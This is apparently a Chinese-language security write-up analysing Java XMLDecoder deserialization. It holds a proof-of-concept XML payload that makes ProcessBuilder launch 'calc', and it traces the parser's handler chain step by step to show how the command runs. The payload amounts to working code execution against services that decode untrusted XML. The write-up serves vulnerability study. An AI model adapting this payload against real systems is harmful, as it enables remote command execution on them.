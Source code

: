 # XMLDecoder反序列化
java jdk自带的xmldedoder用于将xml格式的数据反序列化转换为相应的对象实例,在反序列化过程中如果xml数据可控,则会产生反序列化漏洞.
## 示例代码
```java
package test;
import java.beans.XMLDecoder;
import java.io.IOException;
import java.io.StringBufferInputStream;
class main {

    public static void main(String[] args) throws IOException, InterruptedException {

        String s = "<java version=\"1.7.0_80\" class=\"java.beans.XMLDecoder\">\n" +
                " <object class=\"java.lang.ProcessBuilder\">\n" +
                "  <array class=\"java.lang.String\" length=\"1\">\n" +
                "    <void index=\"0\"><string>calc</string></void>\n" +
                "  </array>\n" +
                "  <void method=\"start\"></void>\n" +
                " </object>\n" +
                "</java>";
        StringBufferInputStream stringBufferInputStream = new StringBufferInputStream(s);
        XMLDecoder xmlDecoder = new XMLDecoder(stringBufferInputStream);
        Object o = xmlDecoder.readObject();
        System.out.println(o);

    }
}
```
## XMLDecoder解析流程
[参考](https://blog.csdn.net/fnmsd/article/details/89889144)
## 调用链
在`XMLDocumentFragmentScannerImpl.scanDocument`前主要是初始化xml解析器,然后进入`scanDocument`正式开始处理xml数据,在这之前的调用链如下  
```
scanDocument:462, XMLDocumentFragmentScannerImpl (com.sun.org.apache.xerces.internal.impl)
parse:888, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:824, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:141, XMLParser (com.sun.org.apache.xerces.internal.parsers)
parse:1216, AbstractSAXParser (com.sun.org.apache.xerces.internal.parsers)
parse:635, SAXParserImpl$JAXPSAXParser (com.sun.org.apache.xerces.internal.jaxp)
parse:324, SAXParserImpl (com.sun.org.apache.xerces.internal.jaxp)
run:377, DocumentHandler$1 (com.sun.beans.decoder)
run:374, DocumentHandler$1 (com.sun.beans.decoder)
doPrivileged:-1, AccessController (java.security)
doIntersectionPrivilege:85, ProtectionDomain$JavaSecurityAccessImpl (java.security)
parse:374, DocumentHandler (com.sun.beans.decoder)
run:201, XMLDecoder$1 (java.beans)
run:199, XMLDecoder$1 (java.beans)
doPrivileged:-1, AccessController (java.security)
parsingComplete:199, XMLDecoder (java.beans)
readObject:250, XMLDecoder (java.beans)
main:19, main (test)
```
### XMLDocumentFragmentScannerImpl.scanDocument
在scanDocument中主要使用Do-While循环来扫描xml各个标签,然后调用next()对不同的节点根据节点名称调用不同的handler来处理,各个handler都存储在一个Hash Map中,在解析到标签的结尾处时,即`SCANNER_STATE_END_ELEMENT_TAG`会进入到scanEndElement()中进行解析.
![1](1.png)  
进入`SCANNER_STATE_END_ELEMENT_TAG`  
![1](9.png)
而对应节点的数据并且通过链表的结构将各个handler连接起来.
类似链表结构
![1](8.png)
即在该POC中的链表结构为`stringHandler->voidHandler->arrayHandler->voidHandler->objectHandler`
在`endElement`方法中调用`this.handler.endElement()`
![1](2.png)
在`endElement()`中则调用了`getValueObject()`来获取对应的值.
![1](3.png)
而在`getValueObject()`中继续调用`getValueObject()`获取值.  
![1](4.png)
![1](5.png)
#### stringHandler
该Handlerz中主要解析了`<string>calc</string>`,在stringHandler中调用`getValueObject()`来将string属性的值赋值给当前handler的sb属性返回.
![1](6.png)
返回后被添加到父节点的参数当中,而父节点为voidHandler.然后将当前handler重置为父节点,即voidHandler.
![1](12.png)
#### 第一个voidHandler
第一个voidhandler主要解析了`<void index="0"><string>calc</string></void>`,然后将handler重置为父节点的arrayhanlder.
![1](13.png)
![1](14.png)
#### ArrayHandler
该Handler主要解析了` <array class="java.lang.String><array>" `,ArrayHandler与StringHandler类似,获取到array标签对应的值后也就是`calc`将其添加到父节点的参数中,然后将当前handler重置为父节点,也就是ObjectHandler.
![1](10.png)
重置为父节点
![1](11.png)
#### 第二个voidHandler
该voidHandler用来解析`<void method="start"></void>`中的`method`属性的start并将其作为参数赋值给父节点Obejct.  
在`getValueObject`中通过getContextBean()获取到一个带有calc参数的ProcessBuilder对象.
在`getContextBean()`的`getValueObject`中,调用了其父节点的`getValueObject()`方法,即OjectHandler的`getValueObject()`方法,在该方法中则直接通过new的方式创建ProcessBuilder对象了返回.
![1](18.png)  
![1](15.png)
在后续的Expression中则将start赋给了的得到Object对象.
![1](16.png)
>public Expression(Object target, String methodName, Object[] arguments)  
按照所给参数创建一个新的Statement对象，使其具有target、  methodName和arguments。 
参数：  
target- 此表达式的 target。  
methodName- 此表达式的 methodName。  
arguments- 此表达式的 arguments。如果该参数为null，则使用一个空数组

最后返回拼接的表达式对象,触发命令执行.
![1](17.png)
# 思路总结
主要原理即在对各个标签的解析当中,可以将取得的object标签值进行对象实例化,并通过链表的方式从其它标签中获取其对象的参数值,最后使用了Expression()方法来调用了对象的指定方法造成了我们可以实例化一个ProcessBuilder对象,并调用其start方法来执行命令.

# 参考
https://xz.aliyun.com/t/7944
https://blog.csdn.net/fnmsd/article/details/89889144